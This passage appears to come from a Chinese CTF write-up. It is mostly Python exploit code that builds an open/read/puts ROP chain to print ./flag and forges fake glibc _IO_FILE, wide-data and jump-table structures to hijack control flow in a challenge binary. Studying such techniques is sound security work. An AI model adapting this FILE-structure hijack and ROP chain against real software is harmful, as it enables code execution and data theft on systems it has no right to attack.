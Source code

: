 构造 orw 链

```plain
#open
orw = b'./flag\x00\x00'
orw += p64(pop_rdx12) + p64(0) + p64(chunk0 - 0x10)#fake io addr
orw += p64(pop_rdi) + p64(orw_addr)
orw += p64(pop_rsi) + p64(0)
orw += p64(open_addr)
#read
orw += p64(pop_rdi) + p64(3)
orw += p64(pop_rsi) + p64(orw_addr + 0x100)
orw += p64(pop_rdx12) + p64(0x50) + p64(0)
orw += p64(read_addr)
#puts
orw += p64(pop_rdi) + p64(orw_addr + 0x100)
orw += p64(puts_addr)
```

其中 chunk0 是我们伪造的 fakeio 的地址

伪造 fake io\_list

```plain
#_IO_list_all
pl=p64(0)+p64(leave_ret)+p64(0)+p64(io_all-0x20) #2c0
pl+=p64(0)*3 #2e0
pl+=p64(orw_addr) #chunk0 + 0xe0 + 0xe8 + 0x70 -- _IO_save_base
pl+=p64(0)*7
pl+=p64(lock) #_lock
pl+=p64(0)*2
pl+=p64(chunk0 + 0xe0) #370: chunk0+0xe0 -- _IO_wide_data
pl+=p64(0)*6
pl+=p64(wfile)

#_IO_wide_data
pl+=p64(0)*0x1c
pl+=p64(chunk0 + 0xe0 + 0xe8) #_IO_jump_t

#_IO_jump_t
pl+=p64(0)*0xd
pl+=p64(magic_gadget)#svcudp_reply+26 处的 gadget
pl+=orw
```

带入本题中

```plain
chunk0 = heap_base + 0xf20 #fake_IO
orw_addr=heap_base+0x2090
orw=b'./flag\x00\x00'
orw+=p64(pop_rdx_r12)+p64(0)+p64(chunk0-0x10)
orw+=p64(pop_rdi)+p64(orw_addr)
orw+=p64(pop_rsi)+p64(0)
orw+=p64(open_addr)
#read
orw+=p64(pop_rdi)+p64(3)
orw+=p64(pop_rsi)+p64(orw_addr+0x100)
orw+=p64(pop_rdx_r12)+p64(0x50)+p64(0)
orw+=p64(read_addr)
#puts
orw+=p64(pop_rdi)+p64(orw_addr+0x100)
orw+=p64(puts_addr)

edit(9,orw)
```
